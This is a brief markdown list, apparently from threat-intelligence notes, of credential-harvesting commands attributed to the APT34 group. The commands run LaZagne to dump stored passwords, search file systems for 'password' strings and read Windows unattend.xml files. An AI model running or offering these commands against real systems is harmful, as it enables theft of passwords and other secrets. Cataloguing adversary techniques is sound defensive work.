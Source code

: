 # APT34 commands

shell laZagne.exe browsers \[-f]&#x20;

python2 laZagne.py all&#x20;

grep -ri password /&#x20;

findstr /si pass \*.xml | \*.doc | \*.txt | \*.xls&#x20;

ls -R | select-string -Pattern password&#x20;

type C:\Windows\Panther\unattend.xml > nul 2>&1&#x20;

type C:\Windows\Panther\Unattend\unattend.xml > nul 2>&1
